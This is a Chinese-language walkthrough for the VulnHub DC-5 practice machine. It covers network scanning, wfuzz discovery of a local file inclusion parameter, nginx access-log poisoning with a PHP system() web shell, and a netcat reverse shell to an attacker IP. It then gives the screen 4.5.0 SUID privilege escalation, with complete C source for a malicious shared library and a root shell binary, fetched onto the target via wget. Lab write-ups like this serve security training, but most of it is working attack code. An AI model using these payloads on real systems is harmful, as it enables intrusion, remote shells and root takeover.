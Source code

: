 # DC 5

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-5,314/

## 知识点

- wfuzz参数爆破
- nginx日志投毒getshell
- suid-screen提权

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.142
```
![](./img/vulnhub-dc5-1.png)

## 漏洞利用

有用户交互的地方 contact.php，提交后跳转到 thankyou.php 页面

![](./img/vulnhub-dc5-2.png)

这里可能存在文件包含漏洞(footer.php)，尝试用wfuzz工具爆破参数

- LFI Payload字典：https://github.com/ffffffff0x/AboutSecurity/blob/master/Payload/LFI/Fuzz_Linux.txt

- LFI 参数字典：https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/api_param/Fuzz_LFI.txt

```bash
wfuzz -w /pentest/AboutSecurity/Dic/Web/api_param/Fuzz_LFI.txt -w /pentest/AboutSecurity/Payload/LFI/Fuzz_Linux.txt -u http://10.30.0.142/thankyou.phpFUZZFUZ2Z --hh 851
```
![](./img/vulnhub-dc5-3.png)

得到file参数,说明完整地址如下：

```
http://10.30.0.142/thankyou.php?file=footer.php
view-source:http://10.30.0.142/thankyou.php?file=/var/log/nginx/access.log
```

![](./img/vulnhub-dc5-4.png)

可以看到，根据Nginx服务的特征，我们在网站上的所有操作都将会被写入日志文件log内，可以利用这个日志文件getshell

尝试写入phpinfo文件

![](./img/vulnhub-dc5-5.png)

尝试反弹shell
```bash
<?php system($_GET['cmd']) ?>
nc -nlvp 4444
# 接着访问 http://10.30.0.142/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 10.30.0.81 4444 -e /bin/bash
```
![](./img/vulnhub-dc5-6.png)

可见反弹成功，接下来就是提权操作

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
find / -perm -u=s 2>/dev/null
```

![](./img/vulnhub-dc5-7.png)

```bash
searchsploit -w screen 4.5.0
```

- https://www.exploit-db.com/exploits/41154

首先kali运行如下
```sh
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机

```bash
python -m SimpleHTTPServer 8080 # kali

# 靶机
cd /tmp
wget 10.30.0.81:8080/libhax.so;wget 10.30.0.81:8080/rootshell

# 运行poc
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

至此提权成功

![](./img/vulnhub-dc5-8.png)


## 参考链接

- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/cf4d99
- http://www.kxsy.work/2021/08/13/shen-tou-dc-5/
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC5-WalkThrough.md